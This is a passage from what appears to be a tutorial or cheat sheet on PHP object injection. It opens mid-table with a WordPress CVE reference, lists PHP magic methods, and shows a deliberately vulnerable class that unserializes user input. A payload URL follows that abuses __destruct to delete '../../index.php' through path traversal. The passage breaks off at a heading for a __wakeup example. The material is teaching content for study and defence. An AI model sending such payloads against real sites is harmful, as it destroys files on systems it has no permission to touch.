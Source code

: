 | Wordpress | 3.6.1 | [NVD NIST](https://nvd.nist.gov/vuln/detail/CVE-2013-4338) |


### PHP Magic Methods:

```

__construct()    __set()    __toString()
__destruct()    __isset()    __invoke()
__call()    __unset()    __set_state()
__callStatic()    __sleep()    __clone()
__get()    __wakeup()    __debugInfo()
```

### Examples of PHP Object Injection:

---

### Exploit with the __destruct method:

Vulnerable code:

```
class Example1
{
   public $cache_file;

   function __construct()
   {
      // some PHP code...
   }

   function __destruct()
   {
      $file = "/var/www/cache/tmp/{$this->cache_file}";
      if (file_exists($file)) @unlink($file);
   }
}

// some PHP code...

$user_data = unserialize($_GET['data']);

// some PHP code..
```

**Payload**:

```
http://testsite.com/vuln.php?data=O:8:"Example1":1:{s:10:"cache_file";s:15:"../../index.php";}
```

### Exploit with the __wakeup in the unserialize function:
